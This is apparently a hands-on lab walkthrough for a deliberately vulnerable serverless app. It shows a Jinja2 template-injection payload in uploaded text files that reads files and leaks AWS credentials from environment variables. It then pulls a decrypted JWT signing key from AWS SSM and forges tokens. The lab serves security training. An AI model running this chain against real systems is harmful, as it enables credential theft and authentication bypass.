 # Serverless JWT Attack


##### Step 1:

* Access the application on the browser: [`https://serverless-attack.netlify.com`](https://serverless-attack.netlify.com).

* Click on `Registration`

* Enter the necessary details and register as a user.

###### * Note: The details provided CAN be fake and we highly recommend it!


##### Step 2:

* Navigate to the login page, enter the details and login to the application.

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

##### Step 3:

* Once logged in, click on the `File-Upload` icon present in the header.

* Click on the `Upload` button. Upload the `readme.txt` file. 

* Once uploaded, the contents of the file is rendered on the UI.

###### * Note: It only accepts `.txt` files.


#### What are the potential attacks based on this functionality???

---

##### Step 4:

* Click on the `File-Upload` icon present in the header.

* Click on the `Upload` button. Upload the `malicious-file.txt` file. 

* Observe the output rendered on the UI.

##### Step 5:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```


##### Step 6:

* Click on the `File-Upload` icon present in the header.

* Click on the `Upload` button. Upload the `read-etc-pwd.txt` file. 

* Observe the output rendered on the UI.


##### Step 7:

* Similarly, upload `read-py-files.txt` file and observe the results

* By observing source-code of application, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.


##### Step 8:

* Use `aws-cli` to fetch decrypted `JWT_PASS` from `SSM` 

###### * Note: Ensure that the AWS `environment variables` have been set

```bash
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```bash
echo "<JWT_PASS value>" | base64 --d > privkey
```

##### Step 9:

* Using the private key, create a public key using `openssl`

```bash
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

##### Step 10:

* On the browser, access [`https://jwt.io`](https://jwt.io) and paste the `JWT Token` fetched in Step 2.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with


